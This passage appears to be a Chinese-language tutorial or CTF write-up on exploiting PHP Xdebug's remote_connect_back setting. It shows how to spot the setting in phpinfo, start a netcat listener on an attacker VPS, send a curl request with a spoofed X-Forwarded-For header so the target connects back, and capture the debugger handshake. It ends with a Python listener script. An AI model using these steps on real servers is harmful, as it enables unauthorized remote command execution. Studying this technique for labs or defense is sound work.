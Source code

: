 phpinfo中验证xdebug扩展是否启用。 服务端配置完成！
 
注：这里还可以使用wamp64，傻瓜式开启Xdebug，在php settings选项里就有
 
### 适用目标 
 
同样对目标网站的phpinfo进行浏览，一旦发现
 
```
xdebug.remote_connect_back => On => On
xdebug.remote_cookie_expire_time => 3600 => 3600
xdebug.remote_enable => On => On
```
 
即可使用Xdebug进行连接，尝试直接命令执行
 
### 实验效果 
 
我们部署完环境后
 
例如目标网址为
 
```
http://192.168.130.157:5555/index.php
```
 
假设我们知道他开启了Xdebug远程回连模式
 
我们在自己的vps上尝试
 
首先打开9000端口进行监听
 
```
root@ubuntu-512mb-sfo2-01:~# nc -l -vv -p 9000
Listening on [0.0.0.0] (family 0, port 9000)
```
 
然后执行以下命令
 
```
curl 'http://题目ip:port/index.php?XDEBUG_SESSION_START=phpstrom' -H "X-Forwarded-For: vps_ip"


```
 
然后监听端口得到回应
 
```
Connection from [题目ip] port 9000 [tcp/*] accepted (family 2, sport 36053)
445<?xml version="1.0" encoding="iso-8859-1"?>
<init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///app/index.php" language="PHP" protocol_version="1.0" appid="119" idekey="phpstrom"><engine version="2.2.3"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2013 by Derick Rethans]]></copyright></init>
```
 
为了方便利用进行命令执行，Ricterz巨师傅已经写好了利用工具
 
```
#!/usr/bin/python2
import socket

ip_port = ('0.0.0.0',9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(1024)
    print(client_data)

```

[0]: https://img2.tuicool.com/nIFNNr6.jpg 
[1]: https://img0.tuicool.com/2iaY7rb.jpg 
[2]: https://img2.tuicool.com/Yfiqqmz.jpg 
[3]: https://img1.tuicool.com/fqee6ji.jpg 